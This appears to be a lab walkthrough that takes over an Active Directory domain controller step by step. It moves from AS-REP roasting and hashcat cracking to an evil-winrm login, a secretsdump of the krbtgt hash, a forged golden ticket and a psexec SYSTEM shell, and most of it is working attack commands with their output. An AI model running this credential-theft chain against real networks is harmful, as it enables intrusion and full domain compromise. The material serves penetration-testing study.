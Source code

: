 # 0. Sources

|||
|---|---|
|[YouTube](https://www.youtube.com/watch?v=YO3y1KRcbi0)|[Download](https://drive.google.com/file/d/1UfnW8X2qzMGTAGK1N4D9_iWHUVYuEmLD/view)|

<details>
  <summary><h1>1. Nmap Scan</h1></summary>


</details>

# 2. Finding a way in

The nmap scan found a FTP service with anonymous login allowed, there isn't any files in FTP at all, but this provides a list of usernames

☝️ **Usernames are important!** Although the FTP service had no data, having a list of usernames means you can use it to enumerate something else

## 2.1. Try AS-REP Roasting

The other ports such as `53`, `88`, `389`, `636`, `3268`, `3269`, etc shows that this is a Domain Controller and the domain name is `windomain.local`

Let's use the list of usernames to do AS-REP Roasting

### 2.1.1. Use kerbrute to find users with preauthentication disabled

```console
┌──(root㉿kali)-[~]
└─# kerbrute -users users.txt -domain windomain.local -dc-ip 10.0.88.39
Impacket v0.10.0 - Copyright 2022 SecureAuth Corporation

[*] Stupendous (Expired password) => Dinnie.Nikki:
[*] Valid user => Dulci.Alanah
[*] Valid user => Lem.Emmalyn
[*] Valid user => Onida.Florence
[*] Valid user => Rakel.Bekki
[*] Valid user => vagrant [NOT PREAUTH]
```

### 2.1.2. Use GetNPUsers.py to get password hash

```console
┌──(root㉿kali)-[~]
└─# impacket-GetNPUsers windomain.local/vagrant -no-pass -dc-ip 10.0.88.39
Impacket v0.10.0 - Copyright 2022 SecureAuth Corporation

[*] Getting TGT for vagrant
$krb5asrep$23$vagrant@WINDOMAIN.LOCAL:871beef48a411f845ebb1d8b04dd9c13$adbbc87ab91d710e562fff2d00b7936613250dad5f0bb468e77b3ef4264d6b3930556b866f4468a8243c3866e2757ced577870144b2afd4746a7fc90fcaf347807e5c50d34285528d3fa71abcdf46994dfa0c26831d0486d8b6cdd1bb8c33208e5eaa246ed75eba33d0f78a533b2760f5a230075a1f7edf73c6742737026a19e393ed411839693fb32dacf7323727214c84c5f905a9c8dea3eccafe0435454ace2a995bf017080883ae04d188dfe3dde47ef1c4c59281879f8b184b61a05278e2fd7bcba94239738c72ad27dfdf0a78efad21663d48b5cbbf7ea51848d0df834adc481c77791200f25947906389d5bfd3907
```

### 2.1.3. Use hashcat to crack the hash

```console
┌──(root㉿kali)-[~]
└─# hashcat -m 18200 as-rep.hash /usr/share/wordlists/rockyou.txt
hashcat (v6.2.6) starting
⋮
$krb5asrep$23$vagrant@WINDOMAIN.LOCAL:•••hash-truncated•••:vagrant

Session..........: hashcat
Status...........: Cracked
Hash.Mode........: 18200 (Kerberos 5, etype 23, AS-REP)
⋮
Started: Thu Dec  8 14:36:19 2022
Stopped: Thu Dec  8 14:36:48 2022
```

### 2.1.4. Connect to target

```console
┌──(root㉿kali)-[~]
└─# evil-winrm -i 10.0.88.39 -u vagrant -p vagrant

Evil-WinRM shell v3.4

Warning: Remote path completions is disabled due to ruby limitation: quoting_detection_proc() function is unimplemented on this machine

Data: For more information, check Evil-WinRM Github: https://github.com/Hackplayers/evil-winrm#Remote-path-completion

Info: Establishing connection to remote endpoint

*Evil-WinRM* PS C:\Users\vagrant\Documents> whoami
windomain\vagrant
*Evil-WinRM* PS C:\Users\vagrant\Documents> whoami /groups

GROUP INFORMATION
-----------------

Group Name                                 Type             SID          Attributes
========================================== ================ ============ ===============================================================
Everyone                                   Well-known group S-1-1-0      Mandatory group, Enabled by default, Enabled group
BUILTIN\Administrators                     Alias            S-1-5-32-544 Mandatory group, Enabled by default, Enabled group, Group owner
BUILTIN\Users                              Alias            S-1-5-32-545 Mandatory group, Enabled by default, Enabled group
BUILTIN\Pre-Windows 2000 Compatible Access Alias            S-1-5-32-554 Mandatory group, Enabled by default, Enabled group
NT AUTHORITY\NETWORK                       Well-known group S-1-5-2      Mandatory group, Enabled by default, Enabled group
NT AUTHORITY\Authenticated Users           Well-known group S-1-5-11     Mandatory group, Enabled by default, Enabled group
NT AUTHORITY\This Organization             Well-known group S-1-5-15     Mandatory group, Enabled by default, Enabled group
NT AUTHORITY\NTLM Authentication           Well-known group S-1-5-64-10  Mandatory group, Enabled by default, Enabled group
Mandatory Label\High Mandatory Level       Label            S-1-16-12288
*Evil-WinRM* PS C:\Users\vagrant\Documents> net user vagrant /domain
User name                    vagrant
Full Name                    Vagrant
Comment                      Vagrant User
User's comment
Country/region code          001 (United States)
Account active               Yes
Account expires              Never

Password last set            8/3/2020 5:44:01 AM
Password expires             Never
Password changeable          8/4/2020 5:44:01 AM
Password required            Yes
User may change password     Yes

Workstations allowed         All
Logon script
User profile
Home directory
Last logon                   12/8/2022 7:30:25 AM

Logon hours allowed          All

Local Group Memberships      *Administrators       *Users
Global Group memberships     *Domain Users
The command completed successfully.
```

# 3. Further Active Directory attack

The `vagrant` user is not a member of Domain Admins, but is a member of `BUILTIN\Administrators` - this should be sufficient rights to elevate to `SYSTEM` and dump all the password hashes in the domain controller

# 3.1. Retrieve krbtgt password hash

```console
┌──(root㉿kali)-[~]
└─# impacket-secretsdump windomain.local/vagrant:vagrant@10.0.88.39
⋮
[*] Dumping Domain Credentials (domain\uid:rid:lmhash:nthash)
[*] Using the DRSUAPI method to get NTDS.DIT secrets
⋮
krbtgt:502:aad3b435b51404eeaad3b435b51404ee:0421d518b013747f02710907bcf91afa:::
⋮
```

# 3.2. Uplookup domain SID

```console
┌──(root㉿kali)-[~]
└─# impacket-lookupsid windomain.local/vagrant:vagrant@10.0.88.39
⋮
[*] Domain SID is: S-1-5-21-1544547503-3534482728-1687236716
⋮
```

# 3.3. Create golden ticket

```console
┌──(root㉿kali)-[~]
└─# impacket-ticketer -nthash 0421d518b013747f02710907bcf91afa -domain-sid S-1-5-21-1544547503-3534482728-1687236716 -domain windomain.local fakeuser
Impacket v0.10.0 - Copyright 2022 SecureAuth Corporation

[*] Creating basic skeleton ticket and PAC Infos
[*] Customizing ticket for windomain.local/fakeuser
[*]     PAC_LOGON_INFO
[*]     PAC_CLIENT_INFO_TYPE
[*]     EncTicketPart
[*]     EncAsRepPart
[*] Signing/Encrypting final ticket
[*]     PAC_SERVER_CHECKSUM
[*]     PAC_PRIVSVR_CHECKSUM
[*]     EncTicketPart
[*]     EncASRepPart
[*] Saving ticket in fakeuser.ccache
```

# 3.4. Test the golden ticket

```console
┌──(root㉿kali)-[~]
└─# export KRB5CCNAME=fakeuser.ccache

┌──(root㉿kali)-[~]
└─# impacket-psexec windomain.local/fakeuser@dc.windomain.local -k -no-pass -target-ip 10.0.88.39 -dc-ip 10.0.88.39
Impacket v0.10.0 - Copyright 2022 SecureAuth Corporation

[*] Requesting shares on 10.0.88.39.....
[*] Found writable share ADMIN$
[*] Uploading file PNBUrhnK.exe
[*] Opening SVCManager on 10.0.88.39.....
[*] Creating service UTaq on 10.0.88.39.....
[*] Starting service UTaq.....
[!] Press help for extra shell commands
Microsoft Windows [Version 10.0.14393]
(c) 2016 Microsoft Corporation. All rights reserved.

C:\Windows\system32> whoami
nt authority\system
```
